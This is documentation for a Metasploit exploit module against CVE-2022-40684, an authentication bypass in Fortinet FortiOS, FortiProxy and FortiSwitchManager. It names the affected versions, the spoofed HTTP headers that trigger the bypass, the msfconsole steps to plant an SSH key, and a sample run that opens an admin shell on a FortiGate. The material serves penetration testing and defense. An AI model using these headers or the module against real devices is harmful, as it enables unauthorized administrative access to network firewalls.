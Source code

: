 ## Vulnerable Application

An authentication bypass using an alternate path or channel vulnerability [CWE-288] in FortiOS (firewall)
FortiProxy (web proxy), and FortiSwitch Manager products. The vulnerability allows remote, unauthenticated user to
bypass authentication and gain access to the administrative interface of these products by using a specially
crafted http/s request.

On October 3, 2022, Fortinet released a software update that addressed this vulnerability (CVE-2022-40684).

The following products are affected:

- FortiOS 7.0.0 to 7.0.6
- FortiOS 7.2.0 to 7.2.1
- FortiProxy 7.0.0 to 7.0.6
- FortiProxy 7.2.0
- FortiSwitchManager 7.0.0
- FortiSwitchManager 7.2.0

### Exploitation

This module will abuse the authentication bypass vulnerability in the affected products to add a new ssh public
key in the authorized keys of the targeted user (if no user is provided it'll try to detect it) and then connect
over ssh to the target system (if no ssh private key is provided this module will automatically generate one).

To do so it will add the following header in all HTTP requests:
```
User-Agent: Report Runner
Forwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"
```

This module doesn't intend to overwrite the ssh keys already configured in the target system, it intends to
**add** a new key in the last slot, if it is available or overwriting it.

Even though the `check` detects the system as vulnerable, it performs a further validation if the ssh port is open and will fail otherwise.

After a successful exploitation it will remove the just added key as a clean-up process. We assume it is the last key.

## Verification Steps
Confirm that functionality works:

1. Start `msfconsole`
1. `use exploit/linux/http/fortinet_authentication_bypass_cve_2022_40684`
1. set `RHOSTS`
1. set `HttpTrace true` (optional)
1. set `SSH_DEBUG true` (optional)
1. set `VERBOSE true` (optional)
1. `exploit`
1. Confirm you have now a cmd session

## Options

### TARGETURI (required)

The path to the Fotigate API (Default: `/`).

### USERNAME (required)

The username of the target user (Default: `admin`).

### PRIVATE_KEY (optional)

The path for the SSH private key to be used to authenticate. It must be in PEM format.

Example how to generate it:
```
ssh-keygen -t rsa -m PEM -f `openssl rand -hex 8`
```

### KEY_PASS (optional)

The password for a given SSH private key (if it has one).

### SSH_RPORT (required)

The SSH port to connect to (Default: `22`)

## Scenarios

### vulnerable application version and OS
This module has been tested successfully on FortiGate v7.2.0.

```
msf exploit(linux/http/fortinet_authentication_bypass_cve_2022_40684) > exploit 

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking XXX.XXX.XXX.XXX:443
[+] The target appears to be vulnerable. Target seems vulnerable
[*] Executing exploit on Interactive SSH
[*] Establishing SSH connection
[*] SSH session 1 opened (172.25.226.18:38791 -> XXX.XXX.XXX.XXX:22) at 2022-10-15 04:00:41 +0200

FW01 #  get sys status
Version: FortiGate-100F v7.2.0,build1157,220331 (GA.F)
Firmware Signature: certified 
```
